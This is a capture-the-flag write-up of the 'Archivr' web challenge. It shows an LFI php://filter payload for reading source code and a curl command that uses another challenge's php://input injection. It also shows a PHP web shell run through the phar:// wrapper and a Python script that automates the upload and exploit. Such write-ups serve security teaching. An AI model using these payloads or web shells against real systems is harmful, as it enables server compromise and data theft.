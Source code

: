 # Archivr 300

My team solved all the other web challenges. This was the only one left.

We did not solve this challenge during the CTF because I'm stupid and forgot how regex work :))))))).

Anyways I think it will make for a good writeup anyways. Enjoy.

![alt text](1.png "Chall")

## Recon

![alt text](2.png "Upload")

We can upload any file we want. Lets try upload shell.php

![alt text](4.png "Download")

The extension gets removed and replaced with .dat.

![alt text](3.png "Download")

We can dowload the file here if we enter `1542616333.dat`

Okay let's try some more extensions and figure out which ones are useful.

![alt text](5.png "Download")

Left side is upload filename, right side is filename returned by server.

Moving on. Not much else to do here as the file is just returned to us and not displayed.

## Dirb
Running dirb we get some new paths.

![alt text](6.png "Download")

Cool, we have found the upload directory. Let's see if we can browse our file.

```
/uploads/1542616333.dat (404)
```

Okay maybe that's not the correct folder.

## Exploiting LFI Wrappers
Using this payload we can view the source code of the upload.php file as the input is not sanitized correctly.

`http://fun.ritsec.club:8004/index.php?page=php://filter/convert.base64-encode/resource=upload`

![alt text](11.png "Download")

Decoding the base64 we get:

![alt text](7.png "Download")

This is the code for the download page:

![alt text](8.png "Download")


So the upload folder is
```
uploads/md5(REMOTE_ADDR)/md5(time()).ext
```
## The hunt for the REMOTE_ADDR IP
In PHP `$_SERVER['REMOTE_ADDR']` returns the IP address in the format X.X.X.X of the user visiting the website.

What's different with this challenge is that the server is running inside docker (most likely) and behind a reverse proxy.

![alt text](apache404.png "Download")

If we visit a page that does not exist. We see that the web server is running apache.

![alt text](nginx.png "Download")

But if we view the header of the request it says nginx.

me ---> nginx (port 8003) ---- > apache (port 80)

Let's try some obvious ones as IP:
```
127.0.0.1
my remote ip
0.0.0.0
54.166.0.85 (ip of ritsec website)
```

None of these worked.... Bruteforce is not a option as we don't know in which range the ip is located.
### Wild idea: Spoofing The X-Forwarded-For (XFF) HTTP header field
I tried to add a header field with a custom IP to see if we can spoof remote address. This did not work and I never expected it to work.

```
X-Forwarded-For: 127.0.0.1
```

### Thinking outside the box: Exploiting another challenge
Remember how we had command injection in Lazy Dev. We know the setup of the CTF should be very similar.

```
curl -d "<?=phpinfo();?>" -X POST http://fun.ritsec.club:8007/devsrule.php?magic=php://input
```
![alt text](9.png "Download")

Remote address of lazy dev is `10.0.10.254`.

Maybe it's the same for Archivr.

![alt text](10.png "Download")

Yaayy! We've found something. Instead of a 404 we get a forbidden (403).

## Create a payload
payload.php
```php
<?php

echo "win";

echo system($_GET["cmd"]);
```
payload.zip
```bash
$ zip payload.zip payload.php
```

Okay we got our payload that we should upload.

Now lets construct the URL.
We know from the recon phase we can't upload a .php file as it will be replaced with .dat.

To run PHP code we can upload a zip and use zip/phar wrappers to extract the zip and run the php file.

Now putting everything together we get:

`
http://fun.ritsec.club:8004/index.php?page=phar://uploads/md5(10.0.10.254)/md5(time()).zip/payload&cmd=ls -lha
`

And the final payload

`
http://fun.ritsec.club:8004/index.php?page=phar://uploads/98d3cbed97b0bc491c000455c9f8e6fb/48be30ab27aa9abc81fe735005f0e601.zip/payload&cmd=ls%20-lha`

![alt text](win.png "Download")

Now finding the flag should be quite easy. Just modify the cmd command!



Here's my python script I used:
```python
import sys
tries = []
import requests
import re

ips = ["10.0.10.254"]

def create_win(ip, filename):
	import hashlib
	m = hashlib.md5()

	m.update(str(ip))
	md5ip = m.hexdigest()

	m = hashlib.md5()
	m.update(filename)
	keymd5 = m.hexdigest()


	URL = 'http://54.211.94.128:8004/uploads/%s/%s.zip' % (md5ip, keymd5)
	print "Testing IP %s on URL %s" % (ip, URL)

	r = requests.get(URL)
	if r.status_code != 404:
		print "VICTORY!!!"
		print "Doing exploit"
		payload = "http://fun.ritsec.club:8004/index.php?page=phar://uploads/%s/%s.zip/payload&cmd=ls -lha" % (md5ip, keymd5)
		print payload		
		exit()

def upload_file():
	url = 'http://fun.ritsec.club:8004/index.php?page=upload'
	files = {'upload': open('payload.zip', 'rb')}
	r = requests.post(url, files=files)
	resp = r.text
	matches = re.search(r'>(.*).zip', resp).group()[1:] #For those curios. This is the code that was wrong and lost us 300 points and a ~5th place.
	return matches.split(".")[0] #Quick and dirty fix with split just to make it work :D


create_win("10.0.10.254", upload_file())
```

Hope you learnt something. I sure did :)
